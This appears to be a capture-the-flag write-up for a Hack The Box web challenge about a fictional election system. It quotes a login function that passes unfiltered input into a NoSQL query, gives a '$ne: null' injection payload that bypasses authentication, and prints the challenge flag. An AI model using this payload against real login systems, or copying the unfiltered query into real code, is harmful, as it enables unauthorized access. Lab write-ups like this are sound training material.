




# Lazy Ballot
> As a Zenium State hacker, your mission is to breach Arodor's secure election system, subtly manipulating the results to create political chaos and destabilize their government, ultimately giving Zenium State an advantage in the global power struggle.

## About the Challenge
We were given a source code (You can download the source code [here](web_lazy_ballot.zip)) and also we got a website to test. Here is the preview of the website


And also there is a login page



The flag was located in the database, especially in the `votes` database and we need to login first to obtain the flag



## How to Solve?
If you check this code in `database.js` file

```js
async loginUser(username, password) {
    const options = {
        selector: {
            username: username,
            password: password,
        },
    };

    const resp = await this.userdb.find(options);
    if (resp.docs.length) return true;

    return false;
    }
```

As you can see there is no filter in the code so we can bypass it using this payload

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```



And then find the flag in the voting list



```
HTB{c0rrupt3d_c0uch_b4ll0t}
```